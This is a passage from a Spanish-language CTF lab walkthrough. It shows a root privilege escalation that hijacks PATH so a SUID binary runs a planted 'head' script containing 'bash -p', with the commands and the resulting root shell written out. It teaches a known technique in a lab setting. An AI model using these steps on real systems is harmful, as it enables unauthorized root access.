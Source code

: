 Dentro de este directorio podemos ver dos archivos: **`head`** y **`PMCEmployees`**. El archivo **`PMCEmployees`** llama la atención por ser un binario configurado con el atributo **`SUID`**, propiedad del usuario **`root`**, lo que permite su ejecución con privilegios elevados sin necesidad de ser el usuario **`root`**.

Para obtener una visión superficial de su contenido se puede utilizar la herramienta **`strings`** para extraer secuencias de caracteres legibles del archivo binario:

```shell
laboratoryadmin@laboratoryuser:~/autoScripts$ strings PMCEmployees
[...]

Showing top 10 best employees of PMC company
head /home/pmccentral/documents/employees.txt

[...]
```

Como podemos observar, está invocando de forma relativa la herramienta **`head`** para obtener los diez primeros resultados del fichero **`employees.txt`**.

Si miramos el otro fichero dentro de la carpeta **`autoScripts`**, llamado también **`head`**, vemos lo siguiente:

```shell
laboratoryadmin@laboratoryuser:~/autoScripts$ cat head
bash -p
laboratoryadmin@laboratoryuser:~/autoScripts$
```

Este comando nos permite iniciar una nueva instancia de la **`Shell`** **`Bash`** con los permisos efectivos del usuario. Si conseguimos iniciar el programa **`head`** (como **`root`**) podemos obtener una **`Shell`** y convertirnos en **`root`**.

Para llevar a cabo esta acción se modificó la variable de entorno **`PATH`** para incluir la ruta actual (**`/home/laboratoryadmin/autoScripts`{: .filepath }**), asegurando que al ejecutar el binario **`PMCEmployees`**, este buscará relativamente el archivo **`head`** modificado.

Esto hará que se ejecute el fichero **`head`** modificado, concluyendo en la ejecución del comando **`bash -p`** como el usuario **`root`**:

```shell
laboratoryadmin@laboratoryuser:~/autoScripts$ export PATH=$(pwd):$PATH
laboratoryadmin@laboratoryuser:~/autoScripts$ echo $PATH
/home/laboratoryadmin/autoScripts:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
laboratoryadmin@laboratoryuser:~/autoScripts$
```

Ahora ya estamos preparados para ejecutar el binario **`PMCEmployees`** y obtener una **`Shell`** como **`root`**:

```shell
laboratoryadmin@laboratoryuser:~/autoScripts$ ./PMCEmployees
root@laboratoryuser:~/autoScripts#
```

¡Genial! Ya tenemos el **`control total`** de la máquina. ¡Qué fácil!

---
<center><iframe width="320" height="180" src="https://www.youtube-nocookie.com/embed/Gse3e7N9BXE" title="Nebula CTF Walkthrough" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen="1"></iframe></center>
